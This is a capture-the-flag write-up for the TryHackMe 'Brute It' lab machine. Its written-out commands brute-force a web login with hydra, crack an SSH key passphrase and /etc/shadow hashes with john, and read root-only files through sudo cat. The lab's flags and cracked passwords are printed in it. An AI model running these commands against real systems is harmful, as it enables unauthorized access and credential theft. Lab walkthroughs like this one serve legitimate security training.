 - **Target IP: 10.10.10.206**
- **Difficulty: Easy**
---

## Reconnaissance

### `nmap` scan:

```bash
nmap -sC -sV 10.10.10.206
```

- **Results:**

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4b:0e:bf:14:fa:54:b3:5c:44:15:ed:b2:5d:a0:ac:8f (RSA)
|   256 d0:3a:81:55:13:5e:87:0c:e8:52:1e:cf:44:e0:3a:54 (ECDSA)
|_  256 da:ce:79:e0:45:eb:17:25:ef:62:ac:98:f0:cf:bb:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Enumeration

- Looking at the webpage, we are presented with a default Apache web server 

- Testing some , I found that there is a login portal at `http://<IP_ADDRESS>/admin`

- Tried running some default logins (test, test / admin, admin) with no luck

- Inspecting the `/admin` page source revealed the following helpful comment...

```html
<!-- Hey john, if you do not remember, the username is admin -->
```

### `gobuster`

```bash
gobuster dir -u http://10.10.10.206 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```

- **Results:**

	- We still are only getting the `admin` directory


## Exploit

- Given the username `admin` we can run a brute force attack using `hydra`

### `hydra`

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.206 http-post-form "/admin/index.php:user=^USER^&pass=^PASS^:F=Username or password invalid" -V -f
```

- **Result:**

```bash
[80][http-post-form] host: 10.10.10.206   login: admin   password: xavier
```


- I ran into an issue here. When you are testing web apps it is very important to include the trailing slash in the url or you will get wildly different results

- `http://example.com/admin` is **NOT** the same as `http://example.com/admin/`

- After logging into the admin panel, we get a flag `THM{brut3_f0rce_is_e4sy}` and the admins name: `John`

- And an `RSA private key` 

- Save the private key as `id_rsa.pem`

### `ssh2john`

- Convert your private key to a `john` hash:

```bash
ssh2john id_rsa.pem > id_rsa.hash
```

- This is necessary because `john` can only crack the password of a key if it's been converted into a recognizable format — `ssh2john` does this by extracting the encrypted blob for cracking.

### `john`

Run `john` against `id_rsa.hash` with a wordlist:

```
john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
```

- **Results:**

```bash
rockinroll       (id_rsa.pem) 
```

#### SSH

- From here we can login as admin using SSH with the `id_rsa.pem` file and the pass we just cracked

- However, we still need to change the permissions for the `id_rsa.pem` file

```bash
chmod 600 id_rsa.pem
```

- This sets **read and write permissions for the owner only**
 
- **Breakdown of `600`:**
	- `6` (owner): read (4) + write (2) = 6 
	- `0` (group): no permissions 
	-  `0` (others): no permissions

- This is used for **sensitive files** like private keys — SSH _requires_ that no one else can access your key.

#### SSH Login

```bash
ssh -i id_rsa.pem john@10.10.10.206 
```

- Now that we have a shell as user `john` we can `cat` the `user.txt`:

```bash
cat user.txt
THM{a_password_is_not_a_barrier}
```

### Privilege Escalation

- As always, check `sudo -l`

```bash
User john may run the following commands on bruteit:
    (root) NOPASSWD: /bin/cat
```

- This means that user `john` can run `/bin/cat` as root

```bash
sudo cat /root/root.txt
```

- This will give us our `root.txt` flag:

```bash
THM{pr1v1l3g3_3sc4l4t10n}
```

- We still need to get the pass for `root`. A good place to check for hashed passwords is:

```bash
sudo cat /etc/shadow
```

- `/etc/shadow` stores hashed user passwords. If a user can read it, they can crack root or other users’ passwords offline using tools like `john`.

- Save the list locally to a file `hashes`

- Run `john` against the list of hashes to obtain the pass for `root`

```bash
john hashes --wordlist=/usr/share/wordlists/rockyou.txt
```

- **Result:**

```bash
football         (root)
```

- Finally `su` to `root` and use the pass we just obtained

```bash
root@bruteit:~# whoami
root
```

---

## Lessons Learned

- Always inspect source code and comments on web pages — they often leak useful hints.
- Brute-forcing web logins with `hydra` requires understanding the form structure and failure conditions.
- Reading `/etc/shadow` is a serious privilege — cracking root hashes is often faster than complex privilege escalation exploits.
- When using SSH private keys, always remember `chmod 600` or SSH will reject them.


[[CTF Notes]]








